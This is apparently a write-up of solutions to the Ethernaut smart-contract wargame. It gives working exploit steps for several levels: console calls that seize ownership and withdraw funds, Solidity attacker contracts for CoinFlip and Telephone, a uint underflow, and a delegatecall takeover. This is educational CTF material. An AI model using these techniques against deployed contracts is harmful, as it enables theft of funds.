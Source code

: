 # Ethernaut - Cryptography
Solutions to https://ethernaut.zeppelin.solutions

# Fallback
await contract.owner()
await contract.getContribution()
await contract.abi
await contract.contribute({value: web3.toWei(0.0001, 'ether')}) //to satisfy require
await contract.sendTransaction({value: web3.toWei(0.001, 'ether')}); //Fallback function
await contract.withdraw() //Take all money

We call the contribute to send some funds to the function. This validates the require function and the value to the sender’s contributions array.
After we call the fallback function by sending a transaction value higher than 0. Since both conditions on require pass, then ownership of the contract is reassigned. This allows the withdraw function to transfer all the funds to the owner.

# Fallout
await contract.owner()
await contract.abi
await contract.Fal1out()
await contract.owner()

The fallout function is not a constructor due to the typo in the function name. This allows anyone to call this function and take ownership of the contract.

#CoinFlip
pragma solidity ^0.4.18;

contract CoinFlip {
    function flip(bool) public returns (bool){ }
}

contract CoinFlipExploit {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip cf = CoinFlip(0xcf9584c0e873b0d0f21a67b37f0a9300a9eea152);

  constructor() public {
  }

  function exploitFlip() public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    cf.flip(side);
       
    return true;
  }
}
We use the above CoinFlipExploit contract to pre find the side. This is done on the same blockhash on this contract and on the CoinFlip contract, so the side value is always	the same in one transaction. The blockhash value does not change until the transaction is completed. This is then done 10 times repeatedly to satisfy this.


#Telephone
pragma solidity ^0.4.18;

contract Telephone {
    function changeOwner(address _owner) public { }
}

contract TelephoneExploit {
  Telephone t = Telephone(0x6c8e692dc45e65b50bd454b89f6febc569fa0e8e);

  constructor() public {
  }

  function exploit() public returns (bool) {
    t.changeOwner(0xf1a55256baac0eed4781b1750e80df10c17ffa70);
    return true;
  }
}

We use the following above contract to take ownership of the Telephone contract.

# Token
await contract.transfer(0xA3e987f45492E2a12a21E45A37c012a6e5E3B01C, 30)
await contract.balanceOf(player)

The transfer function demonstrates overflow and underflow situations. Since balances is uint we hit an underflow with “balances[msg.sender] -= _value” where it modifies the value to a very large number.

# Delegation
web3.eth.sendTransaction({from:player, to:contract.address, data:web3.sha3("pwn()").slice(0,10)}, function(error, hash){});
or 
web3.sha3("pwn()").slice(0,10) and get 4 bytes and then pass the transaction data to contract address

First we need to sha3 encrypted the pwn() function. This is because we need to call the delegation function function by passing the 4 bytes of the sha3 encrypted function to take take ownership of Delegate and Delegation. The delegatecall overrides the owner storage variable with the value of the Delegate storage variable.

#Force
We have to call the selfdestruct() function to destroy the contract.